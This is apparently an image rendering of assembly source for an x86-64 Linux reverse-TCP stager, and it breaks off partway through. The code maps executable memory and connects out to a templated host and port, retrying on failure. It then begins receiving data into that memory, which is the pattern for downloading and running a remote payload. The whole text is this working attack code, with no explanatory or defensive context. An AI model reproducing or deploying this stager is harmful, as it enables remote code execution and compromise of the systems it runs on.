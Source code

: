 ```
            push   0x22
            pop    r10
            mov    dl, 0x7
            syscall 
            test   rax, rax
            js failed

            push  `{`retry_count`}`  
            pop    r9
            push   rax
            push   0x29
            pop    rax
            cdq
            push   0x2
            pop    rdi
            push   0x1
            pop    rsi
            syscall 
            test   rax, rax
            js failed

            xchg   rdi, rax

        connect:
            mov    rcx, `{`encoded_host`}``{`encoded_port`}`
            push   rcx
            mov    rsi, rsp
            push   0x10
            pop    rdx
            push   0x2a
            pop    rax
            syscall 
            pop    rcx
            test   rax, rax
            jns    recv

        handle_failure:
            dec    r9
            jz     failed
            push   rdi
            push   0x23
            pop    rax
            push   0x0
            push   0x5
            mov    rdi, rsp
            xor    rsi, rsi
            syscall              
            pop    rcx
            pop    rcx
            pop    rdi
            test   rax, rax
            jns    connect

        failed:
            push   0x3c
            pop    rax
            push   0x1
            pop    rdi
            syscall

        recv:
            pop    rsi
            push   0x7E
```
